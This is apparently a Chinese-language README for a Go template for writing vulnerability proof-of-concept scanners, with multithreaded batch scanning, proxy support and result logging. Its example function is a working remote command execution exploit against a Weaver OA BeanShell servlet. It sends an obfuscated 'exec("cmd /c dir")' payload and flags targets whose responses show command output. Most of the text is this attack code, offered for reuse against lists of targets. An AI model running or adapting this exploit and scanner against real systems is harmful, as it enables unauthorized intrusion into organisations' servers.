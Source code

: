 # GO语言版 poc模版

## 使用说明

之前写过一个python的poc模版，完成了多线程扫描、单线程扫描，结果输出到文件、代理等功能，而最近在学习go，所以也重新写了一个go语言版的poc模版，同样完成了多线程扫描、单线程扫描、输出到文件、代理等功能。方便大家快速编写自己的poc。

![image-20230130202636364](GO%E8%AF%AD%E8%A8%80%E7%89%88%20poc%E6%A8%A1%E7%89%88.assets/image-20230130202636364.png)

## poc编写

在代码中，大部分功能都无需修改，仅需修改attack_from_url函数即可。

```go
func attack_from_url(target_url *string) string {
	path := "/weaver/bsh.servlet.BshServlet"
	targetUrl := *target_url + path
	body := "bsh.script=ex\\u0065c(\"cmd /c dir\");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"
	reader := strings.NewReader(body)
	request, err := http.NewRequest("POST", targetUrl, reader)
	if err != nil {
		panic(err)
	}
	request.Header.Set("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8")
	request.Header.Set("User-Agent", "Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0")
	client := set_proxy()
	resp, err := client.Do(request)
	if err != nil {
		print.red.Println("[-] " + *target_url + " 访问错误")
	} else {
		bodys, err := ioutil.ReadAll(resp.Body)
		if err != nil {
			panic(err)
		}
		body_data := string(bodys)
		if strings.Contains(body_data, "Program Files") {
			print.green.Println("[+] " + *target_url + " 存在任意命令执行漏洞")
			return *target_url
		} else {
			print.yellow.Println("[-] " + *target_url + " 不存在任意命令执行漏洞")
		}
		defer resp.Body.Close()
	}
	return ""
}
```

代码如上，以某微OA命令执行漏洞为例。首先在第二行设置了攻击的路径path，然后在第4行设置了body，如果为get请求，则删除4、5行以及第六行的reader即可。然后在10-11行设置了请求体。最后在22行对相应包的包体中的内容进行比对，来判定漏洞是否攻击成功。修改别的poc也仅需修改这些即可。

## 使用效果

![](GO%E8%AF%AD%E8%A8%80%E7%89%88%20poc%E6%A8%A1%E7%89%88.assets/image-20230130201639696.png)

## 代码说明

```go
func main() {
	var target_url string
	var target_file string

	poc_name = ""

	set_screen_color()
	print_head()

	app := cli.App{
		Name:  "go poc模版",
		Usage: "一款通用的go语言poc模版",
		Flags: []cli.Flag{
			cli.StringFlag{
				Name:        "target_url,u",
				Usage:       "读取单个目标的`url`",
				Destination: &target_url,
			},
			cli.StringFlag{
				Name:        "target_file,f",
				Usage:       "从`File`读取批量读取URL",
				Destination: &target_file,
			},
			cli.StringFlag{
				Name:        "output,o",
				Usage:       "扫描结果输出到`File`",
				Destination: &output_file,
				Value:       "success.txt",
			},
			cli.StringFlag{
				Name:        "proxy,p",
				Usage:       "代理的`url`地址",
				Destination: &proxy,
			},
			cli.IntFlag{
				Name:        "thread,t",
				Usage:       "批量扫描时的线程`数量`",
				Destination: &threads,
				Value:       20,
			},
		},
		Action: func(c *cli.Context) error {
			if target_url != "" && target_file != "" {
				print.red.Println("[-] 请选择到底是进行单个扫描还是进行批量扫描！")
				os.Exit(0)
			} else if target_url != "" {
				attack_from_url(&target_url)
			} else if target_file != "" {
				attack_from_file(&target_file)
			}
			return nil
		},
	}
	err := app.Run(os.Args)
	if err != nil {
		log.Fatal(err)
	}
}
```

首先在main函数中，定义需要的一些变量，设置命令行输出的颜色以及poc头信息，通过cli库来完成命令行操作的内容，然后在用户输入完命令后，进行判断，判断进行单线程扫描还是多线程扫描，如果进行单线程扫描，则直接进入attack_from_url函数对目标进行攻击，如果进行多线程扫描，则进入attack_from_file函数对存放攻击目标的文件进行处理。

```go
func attack_from_file(target_file *string) {
	success_url_list := list.New()
	target_url_lists := read_file(target_file)
	var data string
	string_chan := make(chan string)
	target_chan := make(chan string)
	if target_url_lists.Len() > 0 {
		print.blue.Println("[*] 成功读取目标，共计", target_url_lists.Len(), "个目标")
		for i := 0; i < threads; i++ {
			go attack_from_urls(target_chan, string_chan)
		}
		go func() {
			for i := target_url_lists.Front(); i != nil; i = i.Next() {
				target_url := fmt.Sprintf("%s", i.Value)
				target_chan <- target_url
			}
		}()
		for i := 0; i < target_url_lists.Len(); i++ {
			data = <-string_chan
			if data != "" {
				data = data + "\n"
				success_url_list.PushBack(data)
			}
		}
		close(string_chan)
		close(target_chan)
		write_file(success_url_list)
		print.blue.Println("[*] 共扫描个", target_url_lists.Len(), "目标，存在漏洞目标", success_url_list.Len(), "个。")
		print.blue.Println("[*] 扫描结果已保存到", output_file)
	} else {
		print.red.Println("[-] 未读取到目标，请检查文件中是否存在目标！")
	}
}
```

在attack_from_file文件中，首先创建两个列表，一个用来存放文件中读取出来的攻击目标，一个用来存放攻击成功的目标。然后创建两个管道，用来和子线程进行通信。如果读取到大于0个url，则打印读取的目标数，并根据用户给定的线程数量开启线程。然后另开启一个线程，循环读取列表中存放的攻击目标，并将其输入管道。而后在主线程中开启一个循环，循环利用管道接收线程的攻击结果。最后将结果写入文件。

```
func attack_from_urls(target_chan, string_chan chan string) {
	for target_url := range target_chan {
		data := attack_from_url(&target_url)
		string_chan <- data
	}
}
```

而在上述代码中，我们使用attack_from_urls作为子线程，在该函数中，我们利用for循环从管道中读取目标，并交给attack_from_url函数进行攻击，并将返回的攻击结果通过管道发送回attack_from_file函数中进行接收，并最后写入文件。

整个的代码逻辑还是十分简单，至于颜色和读取文件写入文件等函数，大家可以自行查看，希望可以帮助到大家。